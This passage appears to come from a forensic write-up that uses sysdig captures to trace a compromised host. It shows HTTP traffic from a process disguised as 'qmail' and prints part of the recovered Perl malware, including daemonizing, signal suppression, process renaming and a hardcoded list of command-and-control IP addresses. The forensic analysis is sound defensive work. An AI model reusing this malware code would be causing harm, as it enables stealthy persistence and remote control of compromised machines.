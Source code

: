 ```bash
ETag: "1-5403e096eb454"
Accept-Ranges: bytes
Content-Length: 1
Connection: close
Content-Type: text/html

------ Write 322B to   172.17.0.2:38658->5.2.86.225:80 (qmail)

GET / HTTP/1.1
Host: 5.2.86.225
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:7.0.1) Gecko/20100101 Firefox/7.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.8,*/*;q=0.9
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: close

------ Read 368B from   172.17.0.2:38658->5.2.86.225:80 (qmail)

HTTP/1.1 200 OK
Date: Tue, 30 Apr 2019 09:14:12 GMT
Server: Apache
Last-Modified: Wed, 30 Jan 2019 02:03:25 GMT
Accept-Ranges: bytes
Content-Length: 163
Connection: close
Content-Type: text/html

<html><head><META HTTP-EQUIV="Cache-control" CONTENT="no-cache"><META HTTP-EQUIV="refresh" CONTENT="0;URL=/cgi-sys/defaultwebpage.cgi"></head><body></body></html>
```

We do have HTTP requests and reponses, and requests sent by `qmail` as thought before. Not so much usefull data from responses, but almost 3 years after, let's say it's for better.

#### Undiscover the perl script

I saw that a `perl` process is runned, except if it's also a faked name, I could be able to read the script it reads in buffer, as I captured a lot of bits for each I/O.

```bash
sysdig -r /tmp/scap.gz -A -c echo_fds evt.is_io_read=true and proc.pid=13992 and not "fd.directory contains /lib"
------ Read 4B from   /dev/urandom (perl)

:ac|
------ Read 5.60KB from   /dev/pts/0 (perl)

use strict; use POSIX; use IO::Socket; use IO::Select; $0 = "qmail"; $| = 1; my $ewblock = 11; my $eiprogr = 150; if ($^O eq "linux") { $ewblock = 11; $eiprogr = 115; }
if ($^O eq "freebsd") { $ewblock = 35; $eiprogr = 36; } &main(); sub main { exit 0 unless defined (my $pid = fork); exit 0 if $pid; POSIX::setsid();
$SIG{$_} = "IGNORE" for (qw (HUP INT ILL FPE QUIT ABRT USR1 SEGV USR2 PIPE ALRM TERM CHLD)); umask 0; chdir "/"; open (STDIN, "</dev/null"); open (STDOUT, ">/dev/null"); open (STDERR, ">&STDOUT");
my $url = ["31.220.18.115","5.101.142.81","5.2.86.225","5.135.42.98","50.7.133.245","5.9.157.230"]; my $tst = ["a".."z", "A".."Z"]; $tst = join ("", @$tst[map {rand @$tst}(1..(6 + int rand 5))]); my $dir = "/var/tmp"; if (open (F, ">", "/tmp/$tst")) { close F; unlink "/tmp/$tst"; $dir ="/tmp"; }
my ($header, $content); my ($link, $file, $id, $command, $timeout) = ("en.wikipedia.org", "index.html", 1, 96, 10);
foreach my $rs (@$url) { $header = "$dir/" . time; $content = $header . "1"; unlink $header if -f $header; unlink $content if -f $content; &http($rs, $timeout, $header, $content, 0);

[truncated]
```
